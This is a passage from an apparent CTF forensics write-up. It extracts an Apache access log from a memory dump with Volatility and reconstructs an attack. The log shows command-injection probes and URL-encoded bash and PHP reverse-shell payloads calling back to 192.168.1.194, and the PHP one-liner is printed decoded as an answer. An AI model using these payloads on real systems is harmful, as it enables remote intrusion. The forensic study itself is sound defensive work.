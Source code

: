 And then we extract it:

```
python vol.py --plugins=profiles/ --profile=LinuxUbuntu_3_13_0-32-genericx64 -f workdir/file.bin linux_find_file -i 0xffff88007b9ae488 -O workdir/access.log
Volatility Foundation Volatility Framework 2.6.1
```

And jackpot:

```
cat workdir/access.log 
192.168.1.194 - - [24/Nov/2021:13:20:29 +0100] "GET / HTTP/1.1" 200 3594 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.164 Safari/537.36"
192.168.1.194 - - [24/Nov/2021:13:20:46 +0100] "GET /?code HTTP/1.1" 200 3594 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.164 Safari/537.36"
192.168.1.194 - - [24/Nov/2021:13:20:51 +0100] "GET /index.php HTTP/1.1" 200 223 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.164 Safari/537.36"
192.168.1.194 - - [24/Nov/2021:13:20:55 +0100] "GET /index.php?code=1 HTTP/1.1" 200 224 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.164 Safari/537.36"
192.168.1.194 - - [24/Nov/2021:13:20:58 +0100] "GET /index.php?code=%27 HTTP/1.1" 200 224 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.164 Safari/537.36"
192.168.1.194 - - [24/Nov/2021:13:21:01 +0100] "GET /index.php?code=-- HTTP/1.1" 200 225 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.164 Safari/537.36"
192.168.1.194 - - [24/Nov/2021:13:21:06 +0100] "GET /index.php?code=ls HTTP/1.1" 200 256 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.164 Safari/537.36"
192.168.1.194 - - [24/Nov/2021:13:21:09 +0100] "GET /index.php?code=whoami HTTP/1.1" 200 247 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.164 Safari/537.36"
192.168.1.194 - - [24/Nov/2021:13:21:13 +0100] "GET /index.php?code=id HTTP/1.1" 200 323 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.164 Safari/537.36"
192.168.1.194 - - [24/Nov/2021:13:21:59 +0100] "GET /index.php?code=bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.1.194%2F12035%200%3E%261 HTTP/1.1" 200 269 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.164 Safari/537.36"
192.168.1.194 - - [24/Nov/2021:13:22:05 +0100] "GET /index.php?code=bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.1.194%2F12035%200%3E%261 HTTP/1.1" 200 269 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.164 Safari/537.36"
192.168.1.194 - - [24/Nov/2021:13:22:12 +0100] "GET /index.php?code=php%20-r%20%27%24sock%3Dfsockopen%28%22192.168.1.194%22%2C12035%29%3Bexec%28%22%2Fbin%2Fsh%20-i%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27 HTTP/1.1" 200 366 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.164 Safari/537.36"
```

We decode the 3rd line from the bottom.

13. What was the initial payload used by the attacker to create a reverse shell?

This was the last line from the access.log. Right now writting this I realise how dumb I was because I could get the port of the attacker from the apache's logs :').

The payload was `php -r '$sock=fsockopen("192.168.1.194",12035);exec("/bin/sh -i <&3 >&3 2>&3");'`.
